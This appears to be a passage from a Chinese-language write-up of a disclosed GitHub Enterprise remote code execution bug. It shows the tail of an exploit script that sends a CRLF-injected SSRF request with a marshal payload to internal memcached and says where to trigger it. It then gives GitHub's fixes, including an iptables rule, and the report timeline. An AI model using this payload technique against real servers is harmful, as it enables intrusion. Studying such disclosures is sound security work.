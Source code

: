 ```
 marshal_code,
 '',
 ''
 ]
   payload = map(quote, payload)
 url = 'http://0:8000/composer/send_email?to=orange@chroot.org&amp;url=http://127.0.0.1:11211/'
   print "nGitHub Enterprise &lt; 2.8.7 Remote Code Execution by orange@chroot.org"
 print '-'*10 + 'n'
 print url + '%0D%0A'.join(payload)
 print '''
 Inserting WebHooks from:
 https://ghe-server/:user/:repo/settings/hooks
   Triggering RCE from:
 https://ghe-server/search?q=ggggg&amp;type=Repositories
 '''
```



**漏洞修复**

GitHub采取了以下措施来防止相关问题再次发生，并提升了网站安全性：

1.增强了Gem faraday-restrict-ip-addresses；

2.采用了自定义的Django中间件来确保攻击者无法从外部访问http://127.0.0.1:8000/render/；

3.增强了iptables规则；



```
$ cat /etc/ufw/before.rules
...
-A ufw-before-input -m multiport -p tcp ! --dports 22,23,80,81,122,123,443,444,8080,8081,8443,8444 -m recent --tcp-flags PSH,ACK PSH,ACK --remove -m string --algo bm --string "User-Agent: GitHub-Hookshot" -j REJECT --reject-with tcp-reset
...
```



**时间轴**

2017年01月23日23:22：通过HackerOne将漏洞上报给GitHub，报告编号为200542；

2017年01月23日23:37：GitHub将报告状态修改为已分类；

2017年01月24日04:43：GitHub确认了漏洞，并表示正在修复相关问题；

2017年01月31日14:01：GitHub Enterprise 2.8.7发布；

2017年02月01日01:02：GitHub回复称漏洞已成功修复；

2017年02月01日01:02：GitHub提供了7500美刀的漏洞奖金；

2017年03月15日02:38：GitHub又提供了5000美金的年度最佳漏洞报告奖励；
